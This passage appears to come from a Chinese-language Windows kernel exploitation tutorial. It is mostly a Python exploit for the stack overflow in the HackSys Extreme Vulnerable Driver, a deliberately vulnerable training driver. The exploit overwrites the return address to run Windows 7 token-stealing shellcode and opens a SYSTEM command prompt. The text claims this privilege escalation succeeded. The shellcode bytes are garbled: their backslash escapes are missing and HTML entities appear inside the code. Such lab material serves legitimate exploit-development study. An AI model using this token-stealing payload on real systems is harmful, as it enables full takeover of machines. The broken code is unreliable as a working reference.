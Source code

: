 Python版



```
# https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowx86.py
import os 
import sys
import struct
from ctypes import *
from ctypes.wintypes import *
kernel32 = windll.kernel32
def TokenStealingPayloadWin7():
    shellcode = (
        #---[Setup]
        "x60"                      # pushad
        "x64xA1x24x01x00x00"  # mov eax, fs:[KTHREAD_OFFSET]
        "x8Bx40x50"              # mov eax, [eax + EPROCESS_OFFSET]
        "x89xC1"                  # mov ecx, eax (Current _EPROCESS structure)
        "x8Bx98xF8x00x00x00"  # mov ebx, [eax + TOKEN_OFFSET]
        #---[Copy System PID token]
        "xBAx04x00x00x00"      # mov edx, 4 (SYSTEM PID)
        "x8Bx80xB8x00x00x00"  # mov eax, [eax + FLINK_OFFSET] &lt;-|
        "x2DxB8x00x00x00"      # sub eax, FLINK_OFFSET           |
        "x39x90xB4x00x00x00"  # cmp [eax + PID_OFFSET], edx     |
        "x75xED"                  # jnz                           -&gt;|
        "x8Bx90xF8x00x00x00"  # mov edx, [eax + TOKEN_OFFSET]
        "x89x91xF8x00x00x00"  # mov [ecx + TOKEN_OFFSET], edx
        #---[Recover]
        "x61"                      # popad
        "x31xC0"                  # NTSTATUS -&gt; STATUS_SUCCESS
        "x5D"                      # pop ebp
        "xC2x08x00"              # ret 8
    )
    shellcodePtr = id(shellcode) + 20
    return shellcodePtr
def main():
    lpBytesReturned = c_ulong()
    hDevice = kernel32.CreateFileA("\\.\HackSysExtremeVulnerableDriver", 0xC0000000,0, None, 0x3, 0, None)
    if not hDevice or hDevice == -1:
        print "[!] Failed to get a handle to the driver " + str(ctypes.GetLastError())
        return -1
    buf = "x41" * 2080 + struct.pack("&lt;L",TokenStealingPayloadWin7())
    bufSize  = len(buf)
    bufPtr = id(buf) + 20
    print "[+] Sending IOCTL request "
    kernel32.DeviceIoControl(hDevice, 0x222003, bufPtr, bufSize, None, 0,byref(lpBytesReturned)   , None)
    os.system('cmd.exe')
if __name__ == '__main__':
    main()
# EOF
```

这里获取到了Root权限

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a5e1ce064c890aba.png)

如果我们检查该过程，您可以看到它作为NT AUTHORITY / SYSTEM运行。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c0b57e87cf779378.png)
